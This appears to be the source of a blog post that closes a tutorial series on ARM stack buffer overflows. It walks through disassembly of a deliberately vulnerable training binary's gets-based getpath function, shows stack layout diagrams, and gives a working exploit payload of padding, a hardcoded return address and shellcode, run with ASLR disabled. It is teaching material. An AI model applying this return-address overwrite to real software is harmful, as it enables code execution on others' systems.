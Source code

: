 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part VII"
---
```


It's time to solve the last challenge of this 7 part serie.<!--more-->


## The vuln

This time the overflow is not in `main` but in called function named
`getpath` but besides that, it is the classical unbounded `gets`
vulnerability.

```nasm
pwndbg> pdisass &main 10
 ► 0x10560 <main>                 push   {fp, lr}
   0x10564 <main+4>               add    fp, sp, #4
   0x10568 <main+8>               sub    sp, sp, #8
   0x1056c <main+12>              str    r0, [fp, #-8]
   0x10570 <main+16>              str    r1, [fp, #-0xc]
   0x10574 <main+20>              bl     #getpath <getpath>

   0x10578 <main+24>              mov    r0, r3
   0x1057c <main+28>              sub    sp, fp, #4
   0x10580 <main+32>              pop    {fp, pc}
```

{% marginmarkdowncode
'
```nasm
pwndbg> p (char*)(*(0x104e8 + 0x60 + 0x8))
$7 = 0x105f8 "input path please: "

pwndbg> p (char*)(*(0x10524 + 0x2c + 0x8))
$8 = 0x1060c "bzzzt (%p)\n"

pwndbg> p (char*)(*(0x1053c + 0x18 + 0x8))
$9 = 0x10618 "got path %s\n"
```
'
'' %}

Here is the `getpath` function. I added some notes in addition to the
disassembly:

```nasm
pwndbg> pdisass &getpath 15
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   0x104e0 <getpath+8>      sub    sp, sp, #0x4c
   0x104e4 <getpath+12>     mov    r4, lr
   0x104e8 <getpath+16>     ldr    r0, [pc, #0x60]
   0x104ec <getpath+20>     bl     #printf@plt <printf@plt> ; "input path please: "

   0x104f0 <getpath+24>     ldr    r3, [pc, #0x5c]
   0x104f4 <getpath+28>     ldr    r3, [r3]
   0x104f8 <getpath+32>     mov    r0, r3
   0x104fc <getpath+36>     bl     #fflush@plt <fflush@plt>

   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>

   0x1050c <getpath+52>     mov    r3, r4
   0x10510 <getpath+56>     str    r3, [fp, #-0x10]
   0x10514 <getpath+60>     ldr    r3, [fp, #-0x10]
   0x10518 <getpath+64>     and    r3, r3, #0xbf000000  ; bin 1011 1111 0...
   0x1051c <getpath+68>     cmp    r3, #0xbf000000
   0x10520 <getpath+72>     bne    #getpath+96 <getpath+96>

   0x10524 <getpath+76>     ldr    r0, [pc, #0x2c]
   0x10528 <getpath+80>     ldr    r1, [fp, #-0x10]
   0x1052c <getpath+84>     bl     #printf@plt <printf@plt> ; "bzzzt (%p)\n"

   0x10530 <getpath+88>     mov    r0, #1
   0x10534 <getpath+92>     bl     #_exit@plt <_exit@plt>

   0x10538 <getpath+96>     sub    r3, fp, #0x50
   0x1053c <getpath+100>    ldr    r0, [pc, #0x18]
   0x10540 <getpath+104>    mov    r1, r3
   0x10544 <getpath+108>    bl     #printf@plt <printf@plt> ; "got path %s\n"

   0x10548 <getpath+112>    sub    sp, fp, #8
   0x1054c <getpath+116>    pop    {r4, fp, pc}
```


Writing 0x50 bytes we overwrite the stack just before
writing the *ret* address: 0x4 more bytes and we are done.

```nasm
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   ...
   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>
```

{% maincolumnditaa %}
 fp + 0x50            fp points here
   |                   |
   v                   v                      ||
-------- main ---------+------+---- start --  || stack before
   xxxxxxxx   r4   fp  |  lr  |  xxxxxxx  ... || the overflow
----- ^ ----- ^ -- ^ --+-- ^ -+-------------  ||
      |       |    |       |                  ||
   buffer    saved registers
{% endmaincolumnditaa %}


The stack pointer `sp` after `getpath`
returns will be at *4 bytes more*  than `fp` *before* the return:

```nasm
(gdb) x/1wx $fp   ; before getpath returns
0xbefffb84:     0x00010578 ; <-- ret address (to main)

(gdb) bt
#0  0x000104e8 in getpath ()
#1  0x00010578 in main ()
```

{% maincolumnditaa %}
                             sp points here
                              |
                              v               ||
-------- main ----------------+---- start --  || stack after
   AAAAAAAA   AA   AA      sp |  eeeeeee  ... || the overflow
----- ^ ----- ^ -- ^ ----- ^ -+- ^ ---------  ||
      |       |    |       |     |            ||
      \-- padding -/   befffb88  egg
{% endmaincolumnditaa %}

## The attack (without DEP and ASLR)

The `egg.text` is the same one used in the
[part 6](/book-of-gehn/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html).

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x88\xfb\xff\xbe' > exploit
pi@raspberrypi:~$ cat egg.text >> exploit

pi@raspberrypi:~$ rm -f pwned_proof

pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash

(aslr disabled) pi@raspberrypi:~$ cat exploit | ./stack6
(aslr disabled) pi@raspberrypi:~$ echo $?
0

(aslr disabled) pi@raspberrypi:~$ cat pwned_proof
pwn!
```

## Future work

This is the last part of the
[ARM challenges](https://github.com/azeria-labs/ARM-challenges) from
[Azeria Labs](https://azeria-labs.com).

However there are a lot of things to explore, tweak and stretch.

In the
[part 6](/book-of-gehn/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html)
I coded a ARM egg, the next obvious step would be write the same egg in
Thumb mode.

So far, the egg was always loaded in the stack and executed there. In
these modern days, the stack is **not** executable so it would be cool
to learn how to bypass this restriction (known as Data Execution
Prevention *DEP* or Write-xor-Execute *W+E*).


Since [part 5](/book-of-gehn/articles/2021/01/20/Smashing-ARM-Stack-for-Fun-Part-V.html)
we were *hardcoding* addresses. *Shame on me*.

Address Space Layout Randomization *(ASLR)* is a well established feature
of modern OS to randomize the *base address* of the loaded libraries.
Bypassing techniques exist since at least 2007 so it is a definitely
topic to learn.


<!-- stuff -->

<script>
function fix_asm_syntax(ev) {
    // pip install selectq
    //   cond = (val('text()') == 'blt') | (val('text()') == 'b') | (val('text()').startswith('mov')) | ...
    //   div = sQ.select('div', attr('class').contains('language-nasm'))
    //   xpath = div.select('span', cond)

    // Make some instructions "keywords"
    var xpath = ".//div[contains(@class,'language-nasm')]//span[(((text() = 'blt') or (text() = 'b')) or starts-with(text(), 'mov')) or starts-with(text(), 'ldm') or starts-with(text(), 'stm') or starts-with(text(), 'ldr') or starts-with(text(), 'bx') or starts-with(text(), 'bl') or starts-with(text(), 'bne') or starts-with(text(), 'mvn') or starts-with(text(), 'beq') or starts-with(text(), 'svc') or starts-with(text(), 'cmn') or starts-with(text(), 'bhi')]";
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.add('k'); // keyword
        el.classList.remove('n'); // noun
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-nasm')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-python')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }
}

document.addEventListener('DOMContentLoaded', fix_asm_syntax);
</script>
